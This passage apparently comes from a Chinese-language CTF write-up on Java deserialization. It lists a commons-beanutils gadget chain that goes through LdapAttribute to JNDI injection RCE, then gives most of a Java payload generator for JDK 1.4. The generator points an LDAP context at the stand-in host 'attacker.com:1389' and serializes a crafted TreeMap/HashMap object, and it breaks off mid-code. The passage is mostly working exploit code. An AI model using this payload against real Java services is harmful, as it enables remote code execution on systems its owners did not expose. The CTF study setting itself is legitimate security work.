 ```java
-> org.apache.commons.beanutils.PropertyUtils#getNestedProperty
-> org.apache.commons.beanutils.PropertyUtils#getSimpleProperty
-> java.lang.reflect.Method#invoke
-> com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> JNDI Injection RCE
```

下面都是通用的低版本中的TreeMap是compare，但是jdk8就是compareto了

#### `如果拿jdk8版本打,把上面的替换成下面这个按理说也是可以打通的`

（直接jdk8+CB 依赖）有空了就补上

![image-20231010212146662](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231010212146662.png)





### 这是这道题jdk 1.4的payload：

```java

import org.apache.commons.beanutils.BeanComparator;
import javax.naming.CompositeName;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.TreeMap;
public class PayloadGenerator {
public static void main(String[] args) throws Exception {
        String ldapCtxUrl = "ldap://attacker.com:1389";
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
new Object[] {"name"});
        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);
        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));
// Generate payload
        BeanComparator comparator = new BeanComparator("class");
        TreeMap treeMap1 = new TreeMap(comparator);
        treeMap1.put(ldapAttribute, "aaa");
        TreeMap treeMap2 = new TreeMap(comparator);
        treeMap2.put(ldapAttribute, "aaa");
        HashMap hashMap = new HashMap();
        hashMap.put(treeMap1, "bbb");
        hashMap.put(treeMap2, "ccc");
        Field propertyField = BeanComparator.class.getDeclaredField("property");
        propertyField.setAccessible(true);
        propertyField.set(comparator, "attributeDefinition");
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.ser"));
```